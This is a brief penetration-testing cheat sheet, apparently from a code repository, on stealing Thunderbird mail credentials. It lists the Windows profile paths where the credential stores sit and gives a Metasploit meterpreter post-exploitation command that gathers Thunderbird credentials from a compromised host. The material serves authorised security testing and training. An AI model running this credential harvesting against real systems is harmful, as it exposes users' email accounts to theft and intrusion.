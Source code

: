 # Thunderbird

## 01 - Manual

```
C:\Users\%username%\AppData\Roaming\Thunderbird\Profiles\

%appdata%\Thunderbird\Profiles\

%userprofile%\AppData\Roaming\Thunderbird\Profiles\
```

## 02 - Metasploit

`meterpreter > run post/multi/gather/thunderbird_creds`
